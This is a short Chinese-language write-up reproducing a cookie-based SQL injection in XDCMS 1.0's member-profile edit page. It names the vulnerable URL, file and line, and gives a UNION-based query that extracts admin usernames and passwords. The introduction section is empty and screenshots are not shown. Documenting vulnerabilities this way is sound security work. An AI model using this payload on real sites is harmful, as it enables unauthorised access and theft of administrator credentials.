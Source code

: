 XDCMS 1.0 sql注入漏洞（二）
===========================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞存在于用户资料修改页面，URL：`index.php?m=member&f=edit`

![](./.resource/XDCMS1.0sql注入漏洞(二)/media/rId24.jpg)

漏洞文件位于`system/modules/member/index.php`，`line:178`

![](./.resource/XDCMS1.0sql注入漏洞(二)/media/rId25.jpg)

\$userid直接从Cookie中取出，并无任何过滤，导致注入

![](./.resource/XDCMS1.0sql注入漏洞(二)/media/rId26.jpg)

    select * from table_member where 'userid'=-4 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin
